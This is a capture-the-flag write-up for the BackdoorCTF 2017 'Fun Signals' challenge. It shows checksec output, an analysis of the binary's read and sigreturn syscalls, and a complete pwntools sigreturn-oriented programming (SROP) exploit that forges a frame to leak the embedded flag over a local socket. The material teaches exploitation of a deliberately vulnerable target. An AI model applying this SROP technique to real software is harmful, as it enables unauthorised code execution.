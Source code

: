 # BackdoorCTF 2017 Fun Signals

## Challenge File

[player_bin](./funsignals_player_bin)

## file + checksec

file:

```
funsignals_player_bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

Note that the binary is **statically linked**.

checksec:

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x10000000)
RWX:      Has RWX segments
```

There is no protection.

## Program Analysis

![Program Analysis](./program_analysis.png)

The binary is minimalist (no function name). Starting from the `__start` label, we find two `syscall` instructions which look suspicious. The first `syscall` invokes `read(0, $rsp, 0x400)` and the second `syscall` invokes `sigreturn()`. This is an obvious hint for SROP.

## Solution

There is a syscall instruction available at 0x10000015. The flag is inside the binary, so we can just forge a sigreturn frame that calls `write(1, &flag, 50)`. This process can be automated using the `SigreturnFrame()` module in Pwntools:

```python
frame = SigreturnFrame()
frame.rax = 1 # syscall number for write()
frame.rdi = 1 # stdout = 1
frame.rsi = 0x10000023 # the address of flag
frame.rdx = 50 # leak 50 bytes of data
frame.rip = 0x10000015 # the address of syscall
```

## Exploit

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./funsignals_player_bin")
context.arch = 'amd64'

def srop(rax, rdi, rsi, rdx, rip):
    frame = SigreturnFrame()
    frame.rax = rax # syscall number for write()
    frame.rdi = rdi # stdout=1
    frame.rsi = rsi # the address of flag
    frame.rdx = rdx # leak how many bytes of data
    frame.rip = rip # the address of syscall

    return frame

def exploit():
    # socat tcp4-listen:1337,reuseaddr,fork exec:./funsignals_player_bin
    r = remote('127.0.0.1', 1337)
    frame = srop(
    rax=constants.SYS_write,
    rdi=constants.STDOUT_FILENO,
    rsi=elf.sym['flag'],
    rdx=50,
    rip=elf.sym['syscall'],
)
    r.send(bytes(frame))
    print(r.readall().decode())

if __name__ == "__main__":
    exploit()
```
